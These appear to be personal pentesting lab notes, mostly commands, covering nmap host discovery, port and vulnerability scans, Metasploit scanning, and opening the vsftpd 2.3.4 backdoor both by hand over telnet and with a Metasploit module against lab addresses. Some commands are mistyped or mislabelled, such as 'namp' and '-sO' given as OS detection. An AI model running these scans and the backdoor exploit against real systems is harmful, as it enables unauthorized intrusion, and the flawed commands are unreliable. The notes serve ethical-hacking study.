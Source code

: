Installing first tools : 
```
apt update
apt install net-tools
apt install nmap
ifconfig
apt install -y iputils-ping
apt install metasploit-framework
```
* Testing ping for 2 machines 
```
ping <ip_victim>
```
```
ping <ip_pentester>
```
* Testing nmap roadmap 
```
nmap -F <ip_victim>
```

* Finding host and scanning network 
learning.oreilly.com/library/view/ceh-certified-ethical

1. check for live systems
```
sudo nmap -sP <ip_victim_network>/24
```

2. check for open ports
(port 80, 443 for web)
```
sudo nmap -sT -p 80,443 10.7.1.0/24
```
T : for TCP using 3-way handshake (Full Open scan) </br>
message 1 : i'm prot 443 Are you theire (SYN) </br>
message 2 : yes i'm thiere, (SYN ACK) </br>
message 3 : let's talk (ACK) </br>
More detect by the IDS </br>
3-way handshake without connection 
```
sudo nmap -sS -p 80,443 <ip_victim_network>/24
```

S : Stealthy (half Open Scan)
(2way handshake)
```
sudo nmap -sT <ip_victim>
```
If with wirshark :  </br>
filter by ip.addr eq <ip_victim> </br>
click one converstation and "apply this filter" </br>

4. Perform banner grabbing
OS detection :
```
sudo nmap -sO <ip_victim>
```
Mora options 
```
sudo nmap -A <ip_victim>
```

5. scan vulnerabilities
```
namp --script vuln <ip_victim>
```
* Scanning using msfconsole :
In Kali Terminal :
```
msfconsole
```
```
show payloads 
```
```
use auxiliary/scanner/portscan/tcp
```
```
show options
```
```
set ports 80
```
```
set rhosts <ip_victim>
```
```
run
```
OR
```
exploit
```

* Testing backdoor vsftpd manual
```
nmap -sS -p 6200 192.168.211.129
```
```
telnet  192.168.211.129 21
```
tape
```
user backdoor:)
```
tape
```
pass doesitmatter?
```
retest port
```
nmap -sS -p 6200 192.168.211.129
```
Opening backdoor
```
telnet  192.168.211.129 6200
```

* Testing backdoor vsftpd : 
```
nmap -sV -p 21 <ip_victim>
```
search the exploit : 
```
msfconsole
```
```
search vsftpd
```
run exploit : 
```
use 1
```
```
set rhosts <ip_victim>
```
```
set rport 21
```
```
exploit
```
